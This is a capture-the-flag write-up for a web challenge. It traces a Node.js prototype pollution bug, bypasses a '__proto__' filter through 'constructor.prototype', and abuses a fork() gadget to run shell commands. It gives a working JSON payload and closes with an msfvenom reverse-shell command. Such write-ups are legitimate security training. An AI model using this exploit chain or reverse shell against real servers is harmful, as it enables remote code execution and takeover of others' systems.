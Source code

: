 ##### Web - Medium

#### Description:
```
You and your buddy corrected the math in your physics teacher's paper on the decay of highly excited massive string
states in the footnote of a renowned publication. He's just failed your thesis out of spite, for making a fool out
of him in the university's research symposium. Now you can't graduate, unless you can do something about it... 🤷
```


- Upon entering the URL, a simple web page is provided.  

	![Portal](images/main_page.png)
- The user can choose between two names and press the "Did I pass?" button. Regardless of the user choice, the result is the same :) 
	![](images/pass.png)

- Let's intercept the request in Burp:

	![](images/burp_calculate_request.png)

- Nothing worth noting so far. It's time to look at the provided source code:

```js
router.get('/debug/:action', (req, res) => {
	return DebugHelper.execute(res, req.params.action);
});

router.post('/api/calculate', (req, res) => {
	let student = ObjectHelper.clone(req.body);
	
	if (StudentHelper.isDumb(student.name) || !StudentHelper.hasBase(student.paper)) {
	return res.send({
	'pass': 'n' + randomize('?', 10, {chars: 'o0'}) + 'pe'
	});
	}

	return res.send({
	'pass': 'Passed'
	});
});
```

- Having a look at the DebugHelper.js file:
```js
execute(res, command) {
	res.type('txt');
	if (command == 'version') {

		let proc = fork('VersionCheck.js', [], {
			stdio: ['ignore', 'pipe', 'pipe', 'ipc']
		});
	proc.stderr.pipe(res);
	proc.stdout.pipe(res);
	return;
	}

	if (command == 'ram') {
		return res.send(execSync('free -m').toString());
	}

	return res.send('invalid command');
}
```

- The execute command accepts two parameters, **ram** or **version**. Ram acts as a free function, but when executed, it reveals that the command is not even installed on the remote server `:laughing:`.
- The version param creates a child process that executes `VersionCheck.js` and pipes stdout and stderr to the parent process'.  
- We gain valuable information, such as the Node JS version that is used. Granted this is simulating a **"white box assessment"**, it is of no real value, since we could've just checked package.json, but from a black box perspective, this information can be vital.  :)
- This could also be a hint that a vulnerable node version is the entry point of this challenge, since the verison is so old (Node v12, comparted to the current v18 as of writing this `29/06/2023` )

- The `ObjectHelper.js` file is where the vulnerability resides: 
```js
module.exports = {
	isObject(obj) {
	return typeof obj === 'function' || typeof obj === 'object';
	},

	isValidKey(key) {
	return key !== '__proto__';
	},

	merge(target, source) {
		for (let key in source) {
			if (this.isValidKey(key)){
				if (this.isObject(target[key]) && this.isObject(source[key])) {
					this.merge(target[key], source[key]);
				} else {
				target[key] = source[key];
				}
			}
		}
		return target;
},
	clone(target) {
	return this.merge({}, target);
	}
	
}
```

- Evident prototype pollution here. If you are unfamiliar with proto pollution, I highly recommend this article from the Port Swigger Web Academy : https://portswigger.net/web-security/prototype-pollution, they go in-depth on this topic. 
 
- TLDR: In JavaScript, objects are created from prototypes, which serve as templates or blueprints for defining object properties and methods. Each object has an internal reference to its prototype, accessible through the `__proto__` attribute. By modifying this attribute, an attacker can introduce new properties or modify existing ones in the target object, even if it was not originally intended.

- Here's a great diagram provided by Snyk:

  	![Great diagram provided by Snyk](images/Prototype_pollution_Attack.svg)

- In our case, there is one catch: the server makes a validation that a key must be different from `__proto__` . Following this article from HackTricks (https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution), we get the following info:

	![](images/keyword_bypass.png)

- So even if `__proto__` is blacklisted, we can just use `object.constructor.prototype`. There are a few differences between the two: 
	- `myobject.constructor.prototype` will only affect objects created from the `myobject` type. 

- The application builds new objects directly from the information provided in the request body, so the effect will be the same as if `__proto__` is used: 
	```js
	let student = ObjectHelper.clone(req.body);
	```

- Now we need to look for a pollution gadget. We saw that the application used `fork()` in the `<URL>/debug/version` endpoint. Using online resources, we can find how to exploit it:
https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/prototype-pollution-to-rce

 ![](images/fork_pollution.png)

- Trying this in burp:
![](images/try_1.png)

- Payload:
```json
{
   "name":"Kenny Baker",
   "constructor":{
      "prototype":{
         "execPath":"/bin/sh",
         "argv0":"/bin/sh",
         "execArgv":[
            "-c",
            "ls"
         ]
      }
   }
}
```

- Access the `/debug/version` endpoint to trigger the pollution:
![](images/try_2.png)

- From here, just spawn a reverse shell.
```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw -o shell.sh
```

